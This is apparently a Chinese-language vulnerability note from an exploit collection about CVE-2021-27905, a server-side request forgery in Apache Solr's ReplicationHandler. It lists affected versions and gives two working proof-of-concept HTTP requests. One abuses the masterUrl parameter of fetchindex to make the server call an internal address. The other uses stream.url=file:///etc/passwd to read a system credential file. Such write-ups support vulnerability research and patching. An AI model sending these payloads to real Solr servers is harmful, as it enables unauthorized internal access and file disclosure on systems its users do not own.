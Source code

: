 # 

# Apache Solr Replication handler SSRF CVE-2021-27905

## 漏洞描述

Apache Solr是一个开源搜索服务引擎，Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。漏洞产生在 ReplicationHandler 中的 masterUrl 参数（ leaderUrl 参数）可指派另一个 Solr 核心上的 ReplicationHandler 讲索引数据复制到本地核心上。成功利用此漏洞可造成服务端请求伪造漏洞。

参考链接：

* https://nvd.nist.gov/vuln/detail/CVE-2021-27905

## 漏洞影响

```
Apache Solr 7.0.0 - 7.7.3 
Apache Solr 8.0.0 - 8.8.1
```

### 漏洞复现

poc：

```
GET /solr/test/replication?command=fetchindex&masterUrl=http://127.0.0.1/&wt=json&httpBasicAuthUser=&httpBasicAuthPassword= HTTP/1.1
HOST:target
....
```

```
GET http://xxxxx/solr/xxxx/debug/dump?stream.url=file:///etc/passwd&param=ContentStream HTTP/1.1
HOST:target
...
```


